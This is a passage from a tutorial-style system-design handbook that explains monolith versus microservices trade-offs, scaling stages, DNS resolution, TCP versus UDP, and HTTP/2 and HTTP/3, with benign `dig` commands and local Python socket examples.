

| | Monolith | Microservices |
|---|---|---|
| Start-up speed | ✅ Fast and simple | ❌ Lots of setup |
| Deploy | One unit; one bug can block everyone | Each team deploys independently |
| Scaling | Scale the whole thing | Scale only the hot service |
| Failures | Usually all-or-nothing | Partial failures — need Part 4 patterns |
| Data | One database, easy transactions | Many databases, hard transactions (see #36, #37) |
| Debugging | One log, one stack trace | Needs distributed tracing (see #85) |

**🎯 Remember:** Most successful companies **started as a monolith**. Microservices solve *organisational* scaling
problems and create *distributed systems* problems — which is what most of this handbook is about.

---

### 0.8 Units and Numbers You Will See Everywhere

| Unit | Meaning |
|---|---|
| **ms** (millisecond) | 1/1,000 of a second. A good API call: 10–200 ms |
| **µs** (microsecond) | 1/1,000,000 of a second. A RAM/Redis-level operation |
| **RPS / QPS** | Requests (or queries) per second — the "traffic" |
| **p50 / p99** | 50% / 99% of requests were faster than this (see #7) |
| **KB, MB, GB, TB** | ~Thousand, million, billion, trillion bytes |
| **Mbps / Gbps** | Mega/Giga *bits* per second — network bandwidth (8 bits = 1 byte) |
| **Nines (99.9%)** | Availability; 99.9% ≈ 43 minutes of downtime per month (see #89) |
| **SPOF** | Single Point of Failure — one thing whose death kills everything |

**Back-of-the-envelope tip:** 1 million requests/day ≈ **12 requests/second** on average (1,000,000 ÷ 86,400).
Peak is often 2–10× the average.

---

### 0.9 The Journey: From 1 User to 10 Million Users

> **In one line:** Systems aren't designed "big" on day one; they **evolve** as each bottleneck appears — and each step
> in that evolution is a topic in this handbook.



| Stage | Pain you feel | What you add | Handbook part |
|---|---|---|---|
| 1 → 2 | DB and app slow each other down | Separate database machine | Part 7 |
| 2 → 3 | One app server maxed out / is a SPOF | Load balancer, more servers, health checks | Parts 2, 10 |
| 3 → 4 | Database CPU at 100% from reads | Caching, read replicas, indexes | Parts 6, 7 |
| 4 → 5 | Far-away users see slow pages | CDN, edge caching | Part 1 |
| 5 → 6 | Emails/videos/reports make requests slow | Queues, workers, events | Part 5 |
| 6 → 7 | Data no longer fits one DB | Partitioning, sharding | Part 7 |
| Always | Bad deploys, attacks, outages | CI/CD, safe releases, observability, security, DR | Parts 11–16 |

**🎯 Remember:** Don't add complexity before you feel the pain. **Measure first** (Part 13), then fix the actual bottleneck.

### 🧠 Part 0 Quiz

**Q1. What's the difference between an IP address and a port?**
<details><summary>Show answer</summary>

The IP address identifies the **machine**; the port identifies the **program** on that machine. Together (`IP:port`) they identify one running service.

</details>

**Q2. A request returns `503 Service Unavailable`. Is that the client's fault or the server's?**
<details><summary>Show answer</summary>

The server's (all `5xx` codes are server-side). A `503` often means "overloaded or temporarily down", so retrying later with backoff (see #27) may succeed.

</details>

**Q3. Why does nearly every big system use caches?**
<details><summary>Show answer</summary>

Memory is roughly 1,000× faster than disk and far faster than a network round trip to a database. Keeping frequently used answers in memory makes responses faster and takes load off the database.

</details>

**Q4. Your app gets 5 million requests per day. Roughly how many requests per second is that?**
<details><summary>Show answer</summary>

5,000,000 ÷ 86,400 ≈ **58 requests/second** on average. Plan for peaks of maybe 2–10× that (≈ 120–600 RPS).

</details>

**Q5. Should a 3-person startup begin with microservices?**
<details><summary>Show answer</summary>

Usually no. A well-structured monolith is faster to build, deploy, and debug. Split into services later when team size or specific scaling needs justify the extra complexity.

</details>

---


## Part 1 — Networking Fundamentals

Every backend system is, at its heart, computers talking to other computers over a network. Before you can design something for millions of users, you need to know how one request actually travels: how a name like `google.com` becomes an address, how bytes get delivered safely and in order, how they are kept secret, and why distance and a few "slow outliers" matter so much. This part builds that foundation, from DNS all the way to caching content at the edge of the internet.



### 1. DNS

> **In one line:** DNS is the internet's phone book: it turns a name like `google.com` into the number (an IP address) that computers use to find each other.

**🏠 Real-life analogy:** You want to call "Pizza Palace" but don't know the number. First you check your own phone contacts (browser cache), then the family address book on the fridge (your computer's OS). Still nothing, so you ask a helpful librarian (the recursive resolver). The librarian checks the master index of all directories (root server), which points to the "restaurants" directory (the `.com` TLD server), which points to Pizza Palace's own front desk (the authoritative server) that finally gives the real number. The librarian writes it on a sticky note that is valid for one hour (the TTL), so the next person who asks gets an instant answer.

**❓ What problem does it solve?**
- Computers find each other using **IP addresses** (like `203.0.113.10`, or the longer IPv6 form `2001:db8::10`). Humans can't remember those, but they can remember `github.com`.
- IP addresses change all the time: servers get replaced, clouds hand out new addresses, companies move providers. A name gives you one stable handle you can quietly repoint.
- Without DNS you would hard-code IPs into apps and every server move would break every client.
- DNS can also point one name at **many** servers, which lets you spread load and send users to the closest region.

**⚙️ How it works:**
1. **Browser cache** — the browser first checks if it looked this name up recently.
2. **OS cache** — the operating system's "stub resolver" checks its own cache and the local `hosts` file (`/etc/hosts` on Linux/macOS).
3. **Recursive resolver** — if still unknown, the OS asks a resolver: usually your ISP's, or a public one like Google `8.8.8.8`, Cloudflare `1.1.1.1` or Quad9 `9.9.9.9`. The resolver does the legwork and caches results for everyone who uses it.
4. **Root servers** — the resolver asks a root server. There are 13 named root server identities (`a.root-servers.net` to `m.root-servers.net`), served by well over a thousand machines worldwide using **anycast** (many machines sharing one IP; you reach the nearest). The root doesn't know `example.com`, but it knows who runs `.com`.
5. **TLD servers** — the Top-Level Domain servers for `.com` (operated by Verisign), `.org`, `.io`, `.uk`, ... reply: "ask these nameservers for `example.com`."
6. **Authoritative nameserver** — the source of truth for the domain (often hosted in AWS Route 53, Cloudflare DNS, Google Cloud DNS or Azure DNS). It returns the actual record.
7. The answer flows back, and **every layer caches it** for the record's TTL.

Your computer asks the resolver a *recursive* question ("get me the final answer"). The resolver asks root/TLD/authoritative servers *iterative* questions ("who should I ask next?"). DNS usually runs over **UDP port 53** (one small question, one small answer) and falls back to TCP for large answers.



**Common record types:**

| Type | What it maps | Example value | Used for |
|---|---|---|---|
| **A** | name → IPv4 address | `203.0.113.10` | Pointing a name at a server |
| **AAAA** | name → IPv6 address | `2001:db8::10` | Same, for IPv6 clients |
| **CNAME** | name → another name (alias) | `www.example.com` → `d111111abcdef8.cloudfront.net` | Pointing at a CDN or SaaS provider |
| **MX** | domain → mail servers (with priority) | `10 mail.example.com` | Email delivery |
| **TXT** | name → free text | `"v=spf1 include:_spf.google.com ~all"` | Email security (SPF, DKIM), proving domain ownership |
| **NS** | zone → its authoritative nameservers | `ns1.example-dns.net` | Delegating a domain to a DNS provider |

**TTL and caching:** Every record has a **TTL** (Time To Live) in seconds: `300` = 5 minutes, `86400` = 1 day. Caches may reuse the answer until the TTL runs out. A long TTL means fewer lookups and faster pages, but changes spread slowly. A short TTL lets you change things quickly but causes more DNS traffic. "DNS propagation" is really just caches around the world expiring. "This name does not exist" answers (NXDOMAIN) are cached too — this is called negative caching.

**GeoDNS / DNS-based load balancing:** The authoritative server can give **different answers to different askers**. A resolver in Tokyo gets the IP of the Tokyo data center, one in Paris gets Frankfurt. Variants: *round-robin* (return several A records), *weighted* (send 90% to v1, 10% to v2), *latency-based* (closest region), and *failover* (stop returning an IP when its health check fails).



**💻 Example:**

```bash
# Ask for the IPv4 address (A record) of a name, short output
dig example.com A +short

# Show the answer section, including the TTL column
dig www.example.com +noall +answer

# Ask a specific resolver (Cloudflare's 1.1.1.1) for a domain's mail servers
dig @1.1.1.1 gmail.com MX +short

# Watch the whole chain yourself: root -> .com -> authoritative
dig +trace example.com
```

The answer section has the shape below (values are illustrative). Read each line as: name, TTL in seconds left, class (`IN` = internet), type, value.

```text
;; ANSWER SECTION:
www.example.com.    300    IN    CNAME    example.com.
example.com.        300    IN    A        203.0.113.10
```

**🌍 Real-world usage:**
- **Managed DNS:** AWS Route 53, Cloudflare DNS, Google Cloud DNS, Azure DNS and NS1 host authoritative records and offer geo, latency and failover routing.
- **Service discovery:** inside Kubernetes, CoreDNS lets services find each other by names like `orders.shop.svc.cluster.local`.
- **Facebook, October 4, 2021:** During routine maintenance, a command meant to check backbone capacity accidentally disconnected all of Facebook's data centers from each other. Facebook's DNS servers were designed to **withdraw their BGP routes** (BGP, the Border Gateway Protocol, is how networks tell the rest of the internet "send traffic for these addresses to me") if they could not reach the data centers. They all did. Suddenly no resolver on Earth could reach Facebook's DNS, so `facebook.com`, Instagram, WhatsApp and Messenger all "disappeared" for about six hours — even though the servers themselves were running. Internal tools were also affected, so engineers had to physically go into data centers to fix it.
- **Dyn, October 2016:** the Mirai botnet flooded the DNS provider Dyn, making sites like Twitter, GitHub and Netflix unreachable for many users. Lesson: big companies now often use **two DNS providers**.
- **"It's always DNS":** a classic sysadmin joke (and haiku: *"It's not DNS / There's no way it's DNS / It was DNS"*). Because everything depends on name lookups, DNS problems show up as random-looking failures everywhere.

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| Long TTL (hours) | Records that rarely change | Slow to change, slow failover |
| Short TTL (30-300 s) | Records you may need to repoint fast | More queries, more dependence on DNS being up |
| GeoDNS / latency routing | Multi-region apps | Steers by the resolver's location, cached answers delay failover |
| Single DNS provider | Small, simple setups | Single point of failure (Dyn 2016) |

**⚠️ Common mistakes:**
- Not lowering the TTL a day or two **before** a migration, so users keep hitting the old IP for hours.
- Putting a CNAME at the bare domain (`example.com`). The standard forbids it; use your provider's ALIAS/ANAME or "CNAME flattening" feature.
- Expecting DNS failover to be instant. Resolvers, OSes and apps cache answers, sometimes longer than the TTL.
- Apps that resolve a name once at startup and never again (long-lived connection pools, old JVM settings), so they never see the new IP.
- Making your DNS depend on the same infrastructure it points to — Facebook 2021 showed how that can lock you out.

**🎯 Remember:** DNS turns names into IPs through a chain of cached lookups (browser → OS → resolver → root → TLD → authoritative), and the TTL controls how fast changes spread. When something weird breaks, check DNS first.

**🔗 See also:** [#2 TCP vs UDP](#2-tcp-vs-udp), [#9 CDN](#9-cdn), [#10 Edge Caching](#10-edge-caching), [#12 Load Balancing](#12-load-balancing), [#15 Service Discovery](#15-service-discovery)

---

### 2. TCP vs UDP

> **In one line:** TCP is like a phone call that makes sure every word arrives in order; UDP is like throwing notes to a friend — super fast, but some notes may get lost.

**🏠 Real-life analogy:** A **TCP** conversation is a phone call: you dial, your friend says "hello?", you say "hi, it's me" (that's the handshake). While talking, if they miss a word they say "sorry, say that again?" and you repeat it. A **UDP** conversation is shouting scores across a stadium: no setup, very fast, and if one shout gets lost you don't repeat it — the next score replaces it anyway.

**❓ What problem does it solve?** First, three basic words:
- **IP address** = the street address of a computer (`203.0.113.10`).
- **Port** = the apartment number inside that computer, telling it *which program* gets the data (a number from 0 to 65535). Examples: 443 = HTTPS, 80 = HTTP, 22 = SSH, 53 = DNS, 5432 = PostgreSQL.
- **Packet** = data is chopped into small envelopes (usually up to about 1,500 bytes) that each carry a "from" and "to" address.

The internet's base layer (IP) delivers packets on a **best-effort** basis: packets can get lost, duplicated, or arrive out of order. Apps need something on top. Some need **everything, in order** (a web page, a bank transfer, a file). Others need **speed and freshness** (a voice call, where a late packet is useless). TCP and UDP are the two "transport protocols" that solve these two needs.

**⚙️ How it works:**

**TCP (Transmission Control Protocol)**
1. **3-way handshake:** client sends `SYN`, server replies `SYN-ACK`, client sends `ACK`. This costs one round trip before any data flows.
2. **Reliability:** every byte gets a sequence number. The receiver sends back ACKs (acknowledgements). If an ACK doesn't come back in time, the sender **retransmits**.
3. **Ordering:** the receiver holds out-of-order packets in a buffer and hands the app a clean, ordered **byte stream**.
4. **Flow control:** the receiver advertises a "window" (how much buffer space it has left) so a fast sender doesn't drown a slow receiver.
5. **Congestion control:** the sender starts slowly (*slow start*), speeds up while things go well, and backs off when packets are lost, so it doesn't jam the network. Common algorithms: CUBIC (Linux default) and BBR (from Google).
6. **Teardown:** `FIN` / `ACK` messages close the connection politely.

**UDP (User Datagram Protocol)**
- No handshake, no ACKs, no ordering, no retransmission. You just send a **datagram** (one self-contained message).
- Tiny 8-byte header (TCP's is 20-60 bytes).
- The app decides what to do about loss. In a video call, re-sending 20 ms of lost audio is pointless — it would arrive too late — so the app just skips or smooths over it.
- Typical uses: **DNS** (one small question, one small answer), **voice and video calls**, **online games** (only the newest position matters), **live streaming**, and **QUIC** (the base of HTTP/3).





| Feature | TCP | UDP |
|---|---|---|
| Connection setup | Yes (3-way handshake) | None |
| Delivery guaranteed | Yes (retransmits lost data) | No |
| Order guaranteed | Yes | No |
| Flow & congestion control | Built in | None (the app must be careful) |
| Header size | 20-60 bytes | 8 bytes |
| Data model | Continuous byte stream | Separate messages (datagrams) |
| Typical uses | Web (HTTP/1.1, HTTP/2), APIs, databases, SSH, email | DNS, voice/video calls, games, QUIC / HTTP/3 |

**QUIC builds on UDP:** TCP lives inside operating system kernels and inside millions of routers and firewalls, so changing it takes many years. UDP passes through almost everywhere. So Google designed **QUIC** to rebuild reliability, ordering (per stream), congestion control **and TLS 1.3 encryption** on top of UDP, inside the application, where it can evolve quickly. The IETF standardized QUIC in 2021 (RFC 9000), and it powers HTTP/3 (see #3).

**💻 Example:** Tiny Python sockets. `SOCK_STREAM` means TCP, `SOCK_DGRAM` means UDP.

```python
# tcp_server.py - echoes back whatever one client sends
import socket

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as srv:   # TCP
    srv.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    srv.bind(("127.0.0.1", 9000))
    srv.listen()
    conn, addr = srv.accept()            # the 3-way handshake completes here
    with conn:
        data = conn.recv(1024)           # careful: may return only PART of what was sent
        conn.sendall(b"echo: " + data)
```

```python
# tcp_client.py
import socket

with socket.create_connection(("127.0.0.1", 9000)) as s:   # SYN, SYN-ACK, ACK
    s.sendall(b"hello")
    print(s.recv(1024))                  # b'echo: hello'
```

```python
# udp_demo.py - no connection, just fire-and-forget datagrams
import socket

receiver = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)    # UDP
receiver.bind(("127.0.0.1", 9001))

sender = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sender.sendto(b"player at x=10,y=20", ("127.0.0.1", 9001))    # no handshake

data, addr = receiver.recvfrom(1024)     # one recvfrom = one whole datagram
print(data, addr)
```

**🌍 Real-world usage:**
- **TCP:** almost every website and API (HTTP/1.1 and HTTP/2), databases (PostgreSQL, MySQL, Redis), SSH, email.
- **UDP:** DNS; video calls — Zoom prefers UDP for media and falls back to TCP when UDP is blocked; WebRTC apps like Google Meet send media over UDP; most fast-paced online games.
- **QUIC:** Google (Search, YouTube), Meta and Cloudflare serve a large share of their traffic over QUIC / HTTP/3.

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| TCP | Data must be complete and in order (pages, payments, files) | Handshake delay, one lost packet stalls everything behind it |
| UDP | Fresh data beats complete data (calls, games, DNS) | You handle loss, order and congestion yourself; often blocked by firewalls |
| QUIC (over UDP) | Modern web/mobile traffic | More CPU in user space, needs TCP fallback |

**⚠️ Common mistakes:**
- Treating TCP as message-based. One `send()` can arrive as several `recv()` calls (or two sends as one). Add framing, like a length prefix or a newline delimiter.
- Opening a new TCP connection for every request, paying the handshake each time. Use keep-alive and connection pools.
- Choosing UDP "because it's faster" and then rebuilding TCP badly with homemade ACKs and retries. Consider QUIC instead.
- Forgetting that many corporate and hotel networks block UDP. Always have a TCP fallback.

**🎯 Remember:** TCP = reliable, ordered, slower to start. UDP = fast, fire-and-forget, you handle loss. Ask: "Is late data still useful?" If not, UDP.

**🔗 See also:** [#3 HTTP/2 & HTTP/3](#3-http2--http3), [#4 TLS](#4-tls), [#5 Latency](#5-latency), [#43 Connection Pooling](#43-connection-pooling)

---

### 3. HTTP/2 & HTTP/3

> **In one line:** HTTP is the language browsers and servers speak — the client asks "GET me this page" and the server replies "200 OK, here it is" — and HTTP/2 and HTTP/3 are faster ways to carry that same conversation.

**🏠 Real-life analogy:** Think of a restaurant. **HTTP/1.1** is a waiter who takes one order, walks to the kitchen, waits, brings the dish back, and only then takes your next order (so the restaurant hires about six waiters per table). **HTTP/2** is one waiter carrying many numbered order slips at once and bringing each dish as soon as it is ready — but all dishes travel through one narrow corridor, so if anyone trips there, everyone waits. **HTTP/3** gives each dish its own path, so one trip doesn't block the others, and the waiter can find you even if you move to another table.

**❓ What problem does it solve?** First, the HTTP basics:
- HTTP (HyperText Transfer Protocol) is a **request/response** protocol: the client sends a request, the server sends back a response. It is **stateless** — each request stands alone, and cookies or tokens carry "who you are."
- A **request** = method + path + headers + optional body. A **response** = status code + headers + optional body.
- **Methods:** `GET` (read), `POST` (create or perform an action), `PUT` (replace), `PATCH` (partially update), `DELETE` (remove), `HEAD` (headers only), `OPTIONS` (what's allowed; used by browser CORS checks).
- **Status code families:** `1xx` informational, `2xx` success (`200 OK`, `201 Created`, `204 No Content`), `3xx` redirect (`301 Moved Permanently`, `304 Not Modified`), `4xx` client mistake (`400 Bad Request`, `401 Unauthorized` = not logged in, `403 Forbidden`, `404 Not Found`, `429 Too Many Requests`), `5xx` server problem (`500 Internal Server Error`, `502 Bad Gateway`, `503 Service Unavailable`, `504 Gateway Timeout`).
- **Headers** are key-value metadata: `Host`, `User-Agent`, `Accept`, `Content-Type`, `Authorization`, `Cache-Control`, `Cookie` / `Set-Cookie`.

A raw HTTP/1.1 request and response look like this:

```http
GET /api/products/42 HTTP/1.1
Host: shop.example.com
User-Agent: curl/8.5.0
Accept: application/json
Authorization: Bearer eyJhbGciOi...
```

```http
HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 45
Cache-Control: max-age=60

{"id": 42, "name": "Blue Mug", "price": 12.5}
```

**The problem with HTTP/1.1:** on one connection, requests are handled **one at a time, in order**. A slow response (say a big image) blocks everything queued behind it. This is called **head-of-line (HOL) blocking**. Browsers work around it by opening about 6 TCP connections per domain, and developers invented hacks like bundling all JavaScript into one file, image sprites, and "domain sharding." On top of that, headers are plain text and repeated on every request (cookies alone can be kilobytes).

**⚙️ How it works:**

**HTTP/2 (2015)**
1. **Binary framing:** messages are split into small binary frames (`HEADERS` frames, `DATA` frames) instead of text lines. Machines parse them faster and more reliably.
2. **Multiplexed streams:** many requests run **at the same time over ONE TCP connection**. Each request/response is a *stream* with an ID, and frames from different streams are interleaved. A slow response no longer blocks the others at the HTTP level.
3. **HPACK header compression:** both sides remember headers they have already sent (in a shared table), so a repeated header becomes a tiny index number instead of the full text.
4. Extras: stream priorities, and "server push" (rarely useful in practice; Chrome removed support in 2022).
5. **Remaining problem:** TCP still delivers bytes strictly in order. If **one packet is lost, ALL streams wait** until it is retransmitted. On lossy mobile networks HTTP/2 can even be slower than six HTTP/1.1 connections.

**HTTP/3 (2022)**
1. Runs over **QUIC on top of UDP** (see #2). QUIC streams are independent: a lost packet only delays the stream it belongs to.
2. **Faster handshakes:** QUIC merges the transport and TLS 1.3 handshakes, so a new connection is ready after **1 round trip** instead of 2 (TCP + TLS), and returning visitors can use **0-RTT** (send data immediately).
3. **Connection migration:** a TCP connection is tied to (source IP, source port, destination IP, destination port). When your phone moves from Wi-Fi to mobile data, your IP changes and the TCP connection dies. QUIC identifies connections by a **connection ID**, so the download keeps going.
4. **QPACK** header compression (HPACK redesigned for independent streams). Encryption is always on.
5. Servers advertise HTTP/3 with the `Alt-Svc` header (or a DNS `HTTPS` record). The browser tries HTTP/3 next time and falls back to HTTP/2 if UDP is blocked.

